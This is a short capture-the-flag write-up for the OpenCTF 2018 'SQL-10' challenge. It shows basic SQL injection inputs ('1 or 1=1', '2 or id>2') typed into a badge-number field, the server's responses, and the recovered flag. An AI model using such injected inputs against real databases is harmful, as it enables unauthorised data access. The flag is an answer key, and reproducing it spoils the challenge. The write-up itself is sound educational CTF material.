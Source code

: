 ```yaml
---
layout: post
title: "SQL-10 : SQL 10"
author: Fl0rbu5
date: 2018-08-12 2:37:59 -0700
slug: sql-10
category:
- 2018
- openctf
---
```

**Category:** SQL

**Points:** 10

**Description:** 
Sql-10 10 ---
https://sql-mayham.openctf.com/ziopxuoiwquyerhnszpasdyvzlkxcjlwerqwer/sql-10/



When 1 is entered it returns the following row

```
Enter a badge number to view that officers file:1
(1, 'bob', 'simmons', 'none')
```
Performing a basic sql injection we got the same row back but no error. The server only returns 1 row

```
Enter a badge number to view that officers file:1 or 1=1
(1, 'bob', 'simmons', 'none')
```
Entering an ID of 2 no results are found.
```
Enter a badge number to view that officers file:2 
None
```
 Using the sql injection an OR was added to say "id>2"
```
Enter a badge number to view that officers file:2 or id>2
(152135123451, 'flag', 'flag', 'Th@tW@53@5yHuh')
```
This returns the flag in the one other row in the database

# Flag
**Th@tW@53@5yHuh**
